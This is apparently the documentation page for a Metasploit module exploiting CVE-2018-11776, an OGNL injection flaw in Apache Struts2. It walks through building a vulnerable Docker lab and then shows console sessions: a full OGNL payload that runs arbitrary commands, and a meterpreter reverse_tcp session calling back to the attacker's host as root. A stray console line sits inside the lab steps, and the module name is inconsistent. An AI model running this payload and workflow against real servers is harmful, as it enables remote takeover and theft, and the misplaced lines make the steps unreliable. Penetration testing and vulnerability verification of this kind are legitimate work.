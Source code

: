 CVE-2018-11776 is a critical vulnerability in the way Apache Struts2 handles namespaces and redirection, which permits an attacker to execute [OGNL(https://commons.apache.org/proper/commons-ognl/language-guide.html) remotely.  Using OGNL, the attacker can modify files and execute commands.

The vulnerability was reported to Apache by [Man Yue Mo] from Semmle in April 2018.  It was widely publicized in August 2018, with PoCs appearing shortly thereafter.

Tomcat versions prior to 7.0.88 will provide output from the injected OGNL and require that we prepend some OGNL to set `allowStaticMethodAccess=true`. Versions starting at 7.0.88 do not provide OUTPUT from injected OGNL and will error if we attempt to modify `allowStaticMethodAccess`.  The `ENABLE_STATIC` option is used to toggle behavior, and the `check` method fingerprints the correct version.

As a result of the lack of OGNL output, we currently cannot support large payloads (namely Windows Meterpreter payloads) on Tomcat versions >= 7.088. Future committers might consider compressing the windows/x64/meterpreter templates or implementing GZIP compression of payloads.



## Vulnerable Application

The Struts showcase app, with a slight adaptation to introduce the vulnerability, works reliabliy as a practice environment.
*@hook-s3c* did an amazing job with [their writeup](https://github.com/hook-s3c/CVE-2018-11776-Python-PoC/blob/master/README.md), which I'll include exerpts of here:

1. From a stock Ubuntu VM, install docker:

    ```
    sudo apt update && sudo apt install docker.io
    ```

2. Download a vulnerable Struts showcase application inside a docker container:

    ```
    sudo docker pull piesecurity/apache-struts2-cve-2017-5638
    sudo docker run -d --name struts2 -p 32771:8080 piesecurity/apache-struts2-cve-2017-5638
    CONTAINER_ID=`sudo docker ps -l -q`
    ```

3. Now that the container is running, open a terminal inside of it:

    ```
    sudo docker exec -it $CONTAINER_ID /bin/bash
    ```

4. From within the container, install your text editor of choice and modify the Struts configs:

    ```
    sudo apt update && sudo apt install nano
    nano /usr/local/tomcat/webapps/ROOT/WEB-INF/classes/struts.xml
    ```

5. Update the struts config to add this to above line #11:

    ```
    &lt;constant name=&quot;struts.mapper.alwaysSelectFullNamespace&quot; value=&quot;true&quot; /&gt;
    ```

6. Update the same struts config file to add this above line #78:

    ```
    &lt;action name=&quot;help&quot;&gt;
        &lt;result type=&quot;redirectAction&quot;&gt;
            &lt;param name=&quot;actionName&quot;&gt;date.action&lt;/param&gt;
        &lt;/result&gt;
    &lt;/action&gt;
    ```

7. Still within the container, shutdown the environment:

    ```
    /usr/local/tomcat/bin/shutdown.sh
    ```

8. Upon completion, the container will shutdown and you'll return to the host environment.  Restart the container, now with a vulnerable endpoint:
msf5 exploit(multi/http/struts2_namespace_ognl) > set LHOST 192.168.199.134
  
    ```
    sudo docker start $CONTAINER_ID
    ```

Congratulations.  You now have a vulnerable Struts server.  If you're following these instructions, your server should be listening on 0.0.0.0:32771.  To confirm:

```
INTERFACE=`ip route list 0.0.0.0/0 | cut -d' ' -f5`
IPADDRESS=`ip addr show $INTERFACE | grep -Po 'inet \K[\d.]+'`
PORT_NUM=`sudo docker port $CONTAINER_ID | sed 's/.*://'`
echo "Struts container is listening on $IPADDRESS:$PORT_NUM"
```

## Verification Steps

  Confirm that check functionality works:
  
  - [ ] Install the application using the steps above.
  - [ ] Start msfconsole.
  - [ ] Load the module: `use exploit/multi/http/struts_namespace_ognl`
  - [ ] Set the RHOST.
  - [ ] Set an invalid ACTION: `set ACTION wrong.action`
  - [ ] Confirm the target is *not* vulnerable: `check`
  - [ ] Observe that the target is *not* vulnerable: `The target is not exploitable.`
  - [ ] Set a valid ACTION: `set ACTION help.action`
  - [ ] Confirm that the target is vulnerable: `The target is vulnerable.`

  Confirm that command execution functionality works:
  
  - [ ] Set a payload: `set PAYLOAD cmd/unix/generic`
  - [ ] Set a command to be run: `set CMD hostname`
  - [ ] Run the exploit: `run`
  - [ ] Confirm the output is the container ID of your docker environment, e.g: `b3d9b350d9b6`
  - [ ] You will not be given a shell (yet).

  Confirm that payload upload and execution works:
  
  - [ ] Set a payload, e.g.: `set PAYLOAD linux/x64/meterpreter/reverse_tcp`
  - [ ] Configure `LHOST` and `RHOST` as necessary.
  - [ ] Run the exploit: `run`

## Options

  **TARGETURI**

  The path to the struts application.  Note that this does not include the endpoint.  In the environment above, the path is `/`.

  **ACTION**

  The endpoint name.  In the environment above, the endpoint is `help.action`.

## Scenarios

### Version of software and OS as applicable

Checking a vulnerable endpoint, as installed in the above steps:

```
msf > use exploit/multi/http/struts_namespace_ognl
msf5 exploit(multi/http/struts_namespace_ognl) > set RHOSTS 192.168.199.135
msf5 exploit(multi/http/struts_namespace_ognl) > set RPORT 32771
msf5 exploit(multi/http/struts_namespace_ognl) > set ACTION help.action
ACTION => help.action
msf5 exploit(multi/http/struts_namespace_ognl) > check
[+] 192.168.199.135:32771 The target is vulnerable.
```

Running an arbitrary command on the above-described environment:

```
msf5 exploit(multi/http/struts_namespace_ognl) > set VERBOSE true
msf5 exploit(multi/http/struts_namespace_ognl) > set PAYLOAD cmd/unix/generic
PAYLOAD => cmd/unix/generic
msf5 exploit(multi/http/struts_namespace_ognl) > set CMD hostname
CMD => hostname
msf5 exploit(multi/http/struts_namespace_ognl) > run
[*] Submitted OGNL: (#_memberAccess['allowStaticMethodAccess']=true).(#cmd='hostname').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())

[*] Command ran.  Output from command:
b3d9b350d9b6

[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/struts_namespace_ognl) > 
```

Getting a Meterpreter session on the above-described environment:

```

msf5 > use exploit/multi/http/struts2_namespace_ognl
msf5 exploit(multi/http/struts2_namespace_ognl) > set ACTION help.action
msf5 exploit(multi/http/struts2_namespace_ognl) > set RHOSTS 192.168.199.135
msf5 exploit(multi/http/struts2_namespace_ognl) > set RPORT 32771
msf5 exploit(multi/http/struts2_namespace_ognl) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/http/struts2_namespace_ognl) > set LHOST 192.168.199.134
msf5 exploit(multi/http/struts2_namespace_ognl) > run

[*] Started reverse TCP handler on 192.168.199.134:4444 
[+] Target profiled successfully: Linux 4.4.0-112-generic amd64, running as root
[+] Payload successfully dropped and executed.
[*] Sending stage (816260 bytes) to 192.168.199.135
[*] Meterpreter session 1 opened (192.168.199.134:4444 -> 192.168.199.135:47482) at 2018-08-31 13:15:22 -0500

meterpreter >
``` 

